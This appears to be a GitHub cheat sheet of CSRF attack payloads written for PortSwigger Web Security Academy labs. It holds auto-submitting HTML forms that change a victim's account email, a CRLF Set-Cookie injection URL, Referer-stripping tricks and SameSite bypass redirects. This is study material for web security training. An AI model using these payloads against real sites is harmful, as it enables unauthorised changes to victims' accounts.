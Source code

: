 ## Cross-site request forgery

## CSRF vulnerabilities work when:

- User is Authenticated;
- SameSite=None - allows them to be sent on cross-site requests;

### CSRF does not work when:

- CSRF Tokens are Present;
- Same-Site Cookies are Enabled: With SameSite cookie policy (e.g., SameSite=Lax or Strict), cookies are only sent on requests originating from the same domain;
- Referrer Check: Some sites check the Referer header to confirm requests are from their own pages;
- Origin header (sometimes) - If the site rejects requests without them, it likely relies on header-based protection.

### Standard GET CSRF:
```
<html> 
<body> 
<form action="https://vulnerable-website.com/my-account/change-email"> 
<input type="hidden" name="email" value="evil@gmail.com" /> 
</form> 
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

### Standard POST CSRF:
```
<html> 
<body> 
<form action="https://vulnerable-website.com/my-account/change-email" method="POST"> 
<input type="hidden" name="email" value="evil@gmail.com" /> 
</form> 
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

### Standard POST CSRF with new inputs:
```
<html> 
<body> 
<form action="https://vulnerable-website.com/my-account/change-email" method="POST"> 
<input type="hidden" name="email" value="evil@gmail.com" />
<input type="hidden" name="csrf" value="SDGDSGHRTG$rewt65RT$T4t45" /> 
</form> 
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

### POST CSRF with NoREFFER header:
```
<html>
<head>
<title>CSRF Exploit </title>
  <meta name="referrer" content="no-referrer">
</head>
<body>
  <form action="https://0a2b00a103d9639280702748000e0044.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned@err.net" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```


```
<html>
<head>
  <title>CSRF Exploit </title>
</head>
<script>history.pushState("", "", "/?0a2b00a103d9639280702748000e0044.web-security-academy.net")</script>
<body>
  <form action="https://0a2b00a103d9639280702748000e0044.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwn234@gmail.com" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```
## ByPass Restrictions:

### CSRF:

1) Just delete **csrf** parameter from request.
2) Make a note of the value of the **CSRF** token, then drop the request this is a single-use, so you'll need to include a fresh one.
3) CSRF where token is tied to non-session cookie:
   
   Changing the session cookie logs you out; and
   Changing the csrfKey cookie merely results in the CSRF token being rejected.

   https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie

4) CSRF where token is duplicated in cookie (and if the search term gets reflected in the Set-Cookie header) :

  Create a URL that uses this vulnerability to inject a fake csrf cookie into the victim's browser:
  ```
  /?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
  ```
  
  Remove the auto-submit <script> block from **Standard CSRF** and instead add the following code to inject the cookie and submit the form:
  ```
  <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  ```

  https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie

### Headers

```
<meta name="referrer" content="no-referrer">  //in head section

Referer: https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net  //in head section

history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")

Referrer-Policy: unsafe-url  //in head section
```

### SameSite (if does not contains unpredictible tokens):

#### 1) SameSite=Lax:

  Send the POST /my-account/change-email request to Burp Repeater.
  Change request method.
  Try overriding the method by adding the _method parameter:
  ```
  <script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
  </script>
  ```

#### 2) SameSite=Strict:

  ```
  <script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
  </script>
  ```
  https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect
  
#### 3) Other :

  https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain

  https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh
